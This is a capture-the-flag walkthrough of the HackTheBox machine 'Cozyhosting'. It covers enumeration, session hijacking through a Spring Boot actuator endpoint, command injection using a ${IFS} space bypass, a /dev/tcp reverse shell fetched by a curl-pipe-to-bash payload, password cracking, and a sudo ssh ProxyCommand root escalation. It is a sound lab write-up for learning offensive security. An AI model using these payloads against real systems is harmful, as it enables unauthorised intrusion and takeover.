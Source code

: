 ```yaml
---
title: "Cozyhosting"
description: ""
pubDate: "Jul 08 2022"
heroImage: "/Cozyhosting/cozyhosting.webp"
---
```

## Enumeration

## Nmap:-

```bash
nmap -A -T4 -p- -o nmap.txt 10.129.119.165
```

```bash
Nmap scan report for 10.129.119.165 (10.129.119.165)
Host is up (0.28s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to [http://cozyhosting.htb](http://cozyhosting.htb/)
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see [https://nmap.org/submit/](https://nmap.org/submit/) ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/3%OT=22%CT=1%CU=40146%PV=Y%DS=2%DC=T%G=Y%TM=64F44123
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=108%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)OPS(O1=M577ST11NW7%O2=M577ST11NW7%O3
OS:=M577NNT11NW7%O4=M577ST11NW7%O5=M577ST11NW7%O6=M577ST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M577NNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)
```

Upon visiting the website, it redirects to [http://cozyhosting.htb/](http://cozyhosting.htb/).

![Untitled](/Cozyhosting/Untitled.png)

## **Adding the Hostname:**

```bash
nano /etc/hosts
```

![Untitled](/Cozyhosting/Untitled%201.png)

## Website

![Untitled](/Cozyhosting/Untitled%202.png)

## Login Page:-

![Untitled](/Cozyhosting/Untitled%203.png)

### **Discovering Hidden Directories:**

```bash
ffuf -u http://cozyhosting.htb/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
```

![Untitled](/Cozyhosting/Untitled%204.png)

### **Accessing the /error Page:**

![Untitled](/Cozyhosting/Untitled%205.png)

Let's research this error on Google:

![Untitled](/Cozyhosting/Untitled%206.png)

We've discovered different endpoints of Spring Boot:

![Untitled](/Cozyhosting/Untitled%207.png)

There's an endpoint called "sessions" that provides the current user's sessions:

![Untitled](/Cozyhosting/Untitled%208.png)

When we make a CURL request to "sessions," we retrieve the sessions:

```bash
curl 'http://cozyhosting.htb/actuator/sessions' -i -X GET
```

![Untitled](/Cozyhosting/Untitled%209.png)

Let's access the login page with the session:

![Untitled](/Cozyhosting/Untitled%2010.png)

![Untitled](/Cozyhosting/Untitled%2011.png)

The username field is vulnerable to command injection, allowing us to execute commands by ending them with a semicolon:

![Untitled](/Cozyhosting/Untitled%2012.png)

However, it's forbidden to provide spaces:

![Untitled](/Cozyhosting/Untitled%2013.png)

![Untitled](/Cozyhosting/Untitled%2014.png)

We can bypass the space restriction by using `${IFS}`:

Let's create a reverse shell:

```bash
echo 'sh -i >& /dev/tcp/10.10.14.16/4444 0>&1' > rev.sh
```

I've hosted a server on port 8000:

```bash
sudo python3 -m http.server
```

![Untitled](/Cozyhosting/Untitled%2015.png)

Let's start a listener on port 4444:

```bash
sudo nc -lvnp 4444
```

![Untitled](/Cozyhosting/Untitled%2016.png)

To get a reverse shell, add the following command to the username field and send the request:

```bash
;curl${IFS}http://10.10.14.16:8000/rev.sh|bash;
```

![Untitled](/Cozyhosting/Untitled%2017.png)

Finally, we have obtained shell access.

![Untitled](/Cozyhosting/Untitled%2018.png)

Found cloudhosting-0.0.1.jar in current directory.Let’s get the file in our system to analysis it.

When I run the jar file, Its using postgresql.

![Untitled](/Cozyhosting/Untitled%2019.png)

We found "cloudhosting-0.0.1.jar" in the current directory. Let's retrieve the file for analysis.

Upon running the JAR file, it appears to be using PostgreSQL:

```bash
jar xf cloudhosting-0.0.1.jar
```

![Untitled](/Cozyhosting/Untitled%2020.png)

Let's find the PostgreSQL details and extract information from "cloudhosting-0.0.1.jar":

```bash
psql -h localhost -d cozyhosting -U postgres -W
```

![Untitled](/Cozyhosting/Untitled%2021.png)

To crack the password, we can use John the Ripper:

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![Untitled](/Cozyhosting/Untitled%2022.png)

There's a user called "josh." Let's log in using the same password:

Finally, we have gained user access as "josh."

![Untitled](/Cozyhosting/Untitled%2023.png)

**Privilege Escalation:**

To find out the sudo privilege details, run:

```bash
sudo -l
```

![Untitled](/Cozyhosting/Untitled%2024.png)

We can use Gftobins for sudo privilege escalation:

![Untitled](/Cozyhosting/Untitled%2025.png)

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Finally, we have achieved a root shell.

![Untitled](/Cozyhosting/Untitled%2026.png)